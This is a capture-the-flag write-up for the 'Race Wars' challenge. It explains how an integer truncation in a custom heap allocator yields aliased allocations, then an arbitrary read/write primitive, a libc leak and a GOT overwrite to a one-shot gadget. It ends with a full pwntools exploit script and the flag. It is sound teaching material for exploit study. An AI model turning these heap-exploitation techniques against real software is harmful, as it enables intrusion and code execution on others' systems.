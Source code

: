 # Race Wars

*This challenge was solved by VoidMercy and cts, VoidMercy doing the dynamic reversing and cts doing the static reversing.*

**VoidMercy**: We are given a binary. Its functionality is quite boring. It lets you create tires, select chassis, engine, and transmission. Afterwards, you can modify these, and/or race, in which you always lose.

Lets start with static analysis. The functionality is also quite bland. There are a ton of branches to each of these options, which assigns different values for different chosen options.

However, there is one big thing of interest you find while reversing. It is the function at 0x400bb6, which is called by all four options, to which values are being assigned. Diving into that function, we quickly find that it serves to allocate memory. There are two branches: if the requested size is greater than 0xfff, then it uses malloc() to allocate memory. However, if it is less, then the binary implements its own malloc implementation with posix_memalign. We also find that for the create tires option, we can control the size, and it mallocs size*32, so we have a controlled malloc size.

Now, custom heap implementations and heaps in general are a pain to statically reverse, so I begin dynamic analysis. Breaking at 0x400b66 and 0x400bb2, I can view the malloc size request and returned pointer. I tried viewing the heap and structs for any overflows and OOBs, to no avail. Then I tried putting in garbage values for tire malloc sizes, and found that huge values causes malloc to return 0x0 and errors out. However, when putting in huge values, I also noticed that, since it gets multiplied by 32, the bits greater than 32 bits get truncated off. So if I can pass in a size of 0x100000000 to malloc, that gets truncated to 0x00000000. I tried entering the tire size 0x100000000/32, and sure enough, the size passed to malloc is 0x0. 

**cts**: Now, a 0x0 allocation might not seem so bad, but this allocator breaks if you pass it a 0x0 allocation! Why? You have to reverse the allocator. For new allocations:
 - Big blocks (0x1000+) are allocated using `malloc` and prepended to a largeblocks linked list. The linked list elements are tags pointing to the blocks so they can be deallocated later, and these tags are allocated on the smallblocks heap.
 - Small blocks heap are allocated **sequentially** with no metadata into bins of size 8196. Once a bin runs out of space, a new bin is allocated using `posix_memalign`.

Suffice it to say, a 0x0 allocation means that the next allocation would lead to the same pointer! Which is exactly what happens when we allocate a transmission. We have found our vulnerability - double pointers.

Here's an idea of how the heap looks on the inside:
```C
struct __attribute__((aligned(8))) HeapListElem
{
  HeapListElem *flink;
  void *block;
};
struct __attribute__((aligned(8))) HeapDestructorCallback
{
  void (__fastcall *funcptr)(void *);
  void *param;
  HeapDestructorCallback *flink;
};
struct __attribute__((aligned(8))) HeapBin
{
  void *pNextFreeLoc;
  uint64_t pEnd;
  HeapBin *flink;
  uint64_t heapIndex;
  uint64_t maxChunkSize;
  HeapBin *pFreeHeap;
  uint64_t field6;
  HeapListElem *largeblocks;
  HeapDestructorCallback *pDestructorCallbacks;
  uint64_t field9;
  char memory[8112];
};
```
(Note: the HeapDestructorCallback list is never used, so it's not an option to overwrite a function pointer.)

**VoidMercy**: So what can we do with this? The modifying transmission function sounds like a great read and write primitive, because it has built in functionalities to do that for us as long as gear size is large enough. So, if the gear size struct is also the same pointer as another struct we control, then we can modify gear size to an extremely large number, and gain arbitrary read/write primitive. The tire struct is perfect for this, since we control 8 bytes through editing tires:

```C
printf("modify what?\n\t(1) width\n\t(2) aspect ratio\n\t(3) construction\n\t(4) diameter\nCHOICE: ");
  __isoc99_scanf("%d", &v5);
  if ( v5 == 2 )
  {
    printf("new aspect_ratio: ", &v5);
    __isoc99_scanf("%d", &v6); //two byte read
    printf("tires are now %d aspect\n", (unsigned __int8)v6);
    *(_WORD *)(a1 + 2) = v6; //two byte write
    goto LABEL_16;
  }
```

So we create a tire and transmission that point to the same malloced chunk. Then we modify tire struct to a huge number by changing all four of its options to -1 (aka 0xffff). Then we can view the transmission, and find that we have arbitrary read and write.

```
tires are now 255 thick
Your Tires are: 655356553565535
modify your car
pick:
        (1) tires
        (2) chassis
        (3) engine
        (4) transmission
        (5) buy new part
        (6) RACE!
CHOICE: 4
choice 4
ok, you have a transmission with 18446744073709551615 gears
which gear to modify?
```

With this, we can leak the heap addresses near the transmission struct, and I found one at offset 0x17. With this we can calculate the address of our transmission struct, and gain read to everything.

Next I leaked libc by reading from putsgot, calculated address of one shot gadget, then overwrote free GOT with it, triggered free, and got a shell.

```python
from pwn import *

def modtire(c, v):
	p.recvuntil('CHOICE: ')
	p.sendline('1')
	p.recvuntil('CHOICE: ')
	p.sendline(str(c))
	p.recvuntil(': ')
	p.sendline(str(v))
def twocomp(val):
	return 0xffffffffffffffff - val + 1
def pow_hash(challenge, solution):
    return hashlib.sha256(challenge.encode('ascii') + struct.pack('<Q', solution)).hexdigest()
def check_pow(challenge, n, solution):
    h = pow_hash(challenge, solution)
    return (int(h, 16) % (2**n)) == 0
def solve_pow(challenge, n):
    candidate = 0
    while True:
        if check_pow(challenge, n, candidate):
            return candidate
        candidate += 1

p = remote('2f76febe.quals2018.oooverflow.io', 31337)
p.recvuntil("Challenge: ")
x=p.recvline()[:-1]
p.recvuntil("n: ")
y=int(p.recvline()[:-1])
p.recv()
ans=solve_pow(x,y)
p.sendline(str(ans))

p.recvuntil('CHOICE: ')
p.sendline('1')
p.sendline(str(0x100000000/32))

p.recvuntil('CHOICE: ')
p.sendline('4')
p.recvuntil('? ')
p.sendline('0')

p.recvuntil('CHOICE: ')
p.sendline('2')
p.sendline('1')

p.recvuntil('CHOICE: ')
p.sendline('3')

modtire('1', '-1')
modtire('2', '-1')
modtire('3', '-1')
modtire('4', '-1')

add = ''
for x in range(0x17, 0x17+8):
	p.recvuntil('CHOICE: ')
	p.sendline('4')
	p.recvuntil('? ')
	p.sendline(str(x + 1))
	p.recvuntil(' is ')
	add += '%02x' % (int(p.recvuntil(',')[:-1]))
	p.sendline('0')
	p.sendline('0')
heapleak = u64(add.decode('hex'))
struct = heapleak - 0x10

distance = struct - 0x603020 #putgot
add = ''
for x in xrange(distance, distance-8, -1):
	p.recvuntil('CHOICE: ')
	p.sendline('4')
	p.recvuntil('? ')
	p.sendline(str(twocomp(x)))
	p.recvuntil('is')
	add += '%02x' % (int(p.recvuntil(',')[:-1]))
	p.sendline('0')
	p.sendline('0')
puts_addr = u64(add.decode('hex'))
print "struct:" + hex(struct)
print 'puts:' + hex(puts_addr)
libc_base = puts_addr - 0x6f690 #put offset
oneshot = libc_base + 0x4526a #oneshot offset
print "oneshot:" + hex(oneshot)
asdf = 0
distance = struct - 0x603018 #free got
for x in xrange(distance, distance - 8, -1):
	p.recvuntil('CHOICE: ')
	p.sendline('4')
	p.recvuntil('? ')
	p.sendline(str(twocomp(x)))
	p.recvuntil('is')
	p.sendline(str(ord(p64(oneshot)[asdf])))
	p.sendline('1')
	asdf += 1

p.recvuntil('CHOICE: ')
p.sendline('6')

p.interactive()
```

## Flag: OOO{4 c0upl3 0f n1554n 5r205 w0uld pull 4 pr3m1um 0n3 w33k b3f0r3 r4c3 w4rz}
